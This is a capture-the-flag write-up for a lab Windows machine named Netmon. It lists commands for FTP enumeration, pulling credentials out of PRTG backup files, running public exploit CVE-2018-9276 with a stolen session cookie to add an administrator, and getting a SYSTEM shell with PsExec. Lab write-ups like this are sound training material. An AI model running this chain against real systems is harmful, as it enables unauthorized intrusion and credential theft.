# Netmon


---

# Machine Information

| Machine | Netmon |
|----------|---------|
| IP | 10.129.230.176 |
| OS | Windows |
| Difficulty | Easy |
| Tags | FTP, PRTG, CVE-2018-9276, Authenticated RCE, Windows |

---

# Skills Learned

- Windows Service Enumeration
- Anonymous FTP Enumeration
- Credential Discovery
- PRTG Network Monitor Enumeration
- CVE-2018-9276 Exploitation
- Windows Privilege Escalation
- Impacket PsExec
- Post Exploitation

---

# Enumeration

## Nmap Scan

Initial service discovery was performed using the default scripts and version detection.

```bash
nmap -sC -sV -oN nmap_scan 10.129.230.176
```

The scan revealed several interesting services:

- FTP (Anonymous Login Enabled)
- HTTP (PRTG Network Monitor)
- MSRPC
- SMB
- HTTPAPI

---



---

# FTP Enumeration

Since anonymous authentication was allowed, I connected to the FTP service.

```bash
ftp 10.129.230.176
```

Anonymous access provided read access across multiple directories.

```
Users
Windows
Program Files
ProgramData
```

---



---

Attempting to enter the Administrator directory resulted in an access denied message.

---



---

# User Flag

Inside the Public Desktop directory, the user flag was accessible through anonymous FTP.

```
Users
    └── Public
          └── Desktop
```

---


---

# Discovering the Web Application

Port 80 hosts **PRTG Network Monitor**.

---



---

After logging in successfully, the administrator dashboard became available.

---



---

# Configuration Enumeration

Browsing the FTP directories eventually exposed the ProgramData directory.

```
ProgramData
    └── Paessler
```

Downloading the directory recursively:

```bash
wget -m ftp://10.129.230.176/ProgramData/Paessler
```

---



---

The downloaded configuration contained backup files.

```
PRTG Configuration.old.bak
```

---



---

Searching inside the backup revealed stored credentials.

```bash
grep -A2 -ie "prtgadmin" *
```

Recovered password:

```
Username : prtgadmin
Password : PrTg@dmin2019
```

---



---

# Authentication

Attempting to authenticate using the recovered credentials initially failed.

This happens because the current year is different from the backup year.

Replacing the year with the backup creation year solved the issue.

```
PrTg@dmin2018
```

---



---

After successful authentication, the administrator panel became accessible.

---


---

# Searching for Public Exploits

SearchSploit revealed an authenticated Remote Code Execution vulnerability affecting this version.

```bash
searchsploit PRTG
```

---



---

Copy the exploit locally.

```bash
searchsploit -m 46527
```

---



---

Reading the exploit explains the required authentication cookie.

---



---

# Obtaining the Authentication Cookie

After logging into PRTG, open the browser developer tools.

Navigate to:

```
Storage
    Cookies
```

Copy the session cookie.

---



---

# Exploitation (CVE-2018-9276)

Run the exploit.

```bash
bash 46527.sh \
-u http://10.129.230.176 \
-c "<Authentication Cookie>"
```

The exploit automatically creates a new administrator account.

```
Username : pentest
Password : P3nT3st!
```

---



---

The Metasploit module for this vulnerability is also available.

```bash
search PRTG
```

---



---

# Alternative Access

After the exploit created a new administrator account, authentication settings became accessible.

---



---



---

# SYSTEM Shell

Using the newly created credentials, Impacket PsExec provides immediate SYSTEM access.

```bash
impacket-psexec pentest:'P3nT3st!'@10.129.230.176
```

---



---

Verify privileges.

```cmd
whoami
```

Output:

```
nt authority\system
```

---

# Root Flag

Navigate to the Administrator desktop.

```cmd
cd C:\Users\Administrator\Desktop

dir
```

---



---

# Attack Path

```
Nmap
        │
        ▼
Anonymous FTP
        │
        ▼
ProgramData Enumeration
        │
        ▼
PRTG Configuration.old.bak
        │
        ▼
Recover Credentials
        │
        ▼
Login to PRTG
        │
        ▼
Extract Authentication Cookie
        │
        ▼
CVE-2018-9276
        │
        ▼
Create Administrator User
        │
        ▼
Impacket PsExec
        │
        ▼
NT AUTHORITY\SYSTEM
        │
        ▼
Root Flag
```

---

# Vulnerabilities

| Vulnerability | Severity |
|--------------|----------|
| Anonymous FTP | Medium |
| Credential Disclosure via Backup | High |
| Weak Password Rotation Pattern | Medium |
| CVE-2018-9276 Authenticated RCE | Critical |

---

# MITRE ATT&CK Mapping

| Technique | ID |
|-----------|----|
| Network Service Discovery | T1046 |
| Valid Accounts | T1078 |
| Credentials from Configuration Files | T1552.001 |
| Exploit Public-Facing Application | T1190 |
| Command and Scripting Interpreter | T1059 |
| Remote Services | T1021 |
| Account Manipulation | T1098 |

---

# References

- CVE-2018-9276
- https://www.exploit-db.com/exploits/46527
- https://attack.mitre.org/
- https://www.paessler.com/prtg

---

# Lessons Learned

- Anonymous FTP access can expose highly sensitive configuration files.
- Backup files frequently contain plaintext credentials.
- Old credentials often remain valid with predictable modifications.
- Session cookies can be leveraged to perform authenticated attacks.
- PRTG versions prior to the patch are vulnerable to authenticated Remote Code Execution.
- Administrative access combined with PsExec quickly leads to full SYSTEM compromise.
